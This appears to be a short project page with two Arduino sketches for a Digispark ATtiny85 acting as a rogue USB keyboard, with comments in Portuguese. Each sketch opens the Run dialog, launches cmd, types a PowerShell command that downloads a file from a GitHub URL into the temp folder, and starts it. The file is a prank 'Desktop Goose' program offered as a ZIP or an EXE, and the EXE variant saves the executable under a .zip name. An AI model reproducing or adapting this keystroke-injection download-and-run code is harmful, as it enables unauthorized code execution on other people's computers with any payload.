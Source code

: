 # Desktop-Goose
LINK

Arduino IDE (Digispark ATINY85)
Link ZIP:

#include "DigiKeyboard.h"

void setup() {
  DigiKeyboard.sendKeyStroke(0); // Inicializa
  DigiKeyboard.delay(1000);

  // Abre o Executar (Win + R)
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(600);

  // Digita "cmd" e aperta Enter
  DigiKeyboard.print("cmd");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);

  // Comando para baixar Desktop Goose
  DigiKeyboard.print("powershell -Command \"Invoke-WebRequest -Uri 'https://github.com/MrNuno/Desktop-Goose/raw/refs/heads/main/Desktop%20Goose%20v0.31.zip' -OutFile $env:TEMP\\goose.zip\"");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(5000); // espera baixar (pode aumentar se a net for lenta)

  // Abre o arquivo baixado
  DigiKeyboard.print("start $env:TEMP\\goose.zip");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
}

void loop() {
  // Não precisa repetir
}


Link EXE:

#include "DigiKeyboard.h"

void setup() {
  DigiKeyboard.sendKeyStroke(0); // Inicializa
  DigiKeyboard.delay(1000);

  // Abre o Executar (Win + R)
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(600);

  // Digita "cmd" e aperta Enter
  DigiKeyboard.print("cmd");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);

  // Comando para baixar Desktop Goose
  DigiKeyboard.print("powershell -Command \"Invoke-WebRequest -Uri 'https://github.com/MrNuno/Desktop-Goose/raw/refs/heads/main/GooseDesktop.exe' -OutFile $env:TEMP\\goose.zip\"");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(5000); // espera baixar (pode aumentar se a net for lenta)

  // Abre o arquivo baixado
  DigiKeyboard.print("start $env:TEMP\\goose.zip");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
}

void loop() {
  // Não precisa repetir
}


